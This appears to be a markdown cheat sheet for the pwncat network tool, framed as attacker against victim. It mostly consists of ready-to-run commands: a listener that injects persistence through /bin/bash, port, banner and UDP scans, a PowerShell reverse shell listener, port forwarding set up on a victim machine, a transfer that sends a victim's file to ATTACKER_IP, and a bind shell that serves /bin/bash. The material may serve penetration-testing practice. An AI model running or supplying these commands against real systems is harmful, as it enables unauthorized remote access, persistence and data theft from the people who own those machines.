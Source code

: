# Pwncat

## Installation

#### 1) Pip

    pip install pwncat

#### 2) Apt

    sudo apt install pwncat

## Usage:

#### 1) Sets up a listener while creating a persistent mechanism. Connect back with rlwrap nc -lvnp PORT. +NUM indicates how many more ports does the persistent mechanism work

    pwncat -l PORT --self-inject /bin/bash:TARGET_IP:PORT+NUM 

Test for persistence

    rlwrap nc -lvnp PORT

#### 2) Port Scan

    sudo pwncat -z IP 1-65535

#### 3) Banner grabbing

    sudo pwncat -z IP 1-65535 --banner

#### 4) UDP Scan

    sudo pwncat -z IP 1-100 -u

#### 5) Windows reverse shell

    pwncat -l PORT

On revshells.com, choose pwncat listener with powershell reverse shell

<img width="1210" height="1202" alt="image" src="https://github.com/user-attachments/assets/3a112c58-0752-432b-9e7e-8c26481efff5" />

#### 6) Local port forwarding

Install on victim machine

    pip3 install pwncat

Run this on victim machine that has an internal port to forward

    pwncat -L 0.0.0.0:5000 127.0.0.1 INTERNAL_PORT

Access the web app via 

    http://TARGET_IP:5000

#### 7) File transfer

Receive file on our machine

    pwncat -l PORT > data.txt

On victim machine, send file to our machine

    pwncat ATTACKER_IP PORT < data.txt

#### 8) Bind shell

Attacker machine

    pwncat TARGET_IP PORT

Victim machine

    pwncat -l -e '/bin/bash' PORT -k
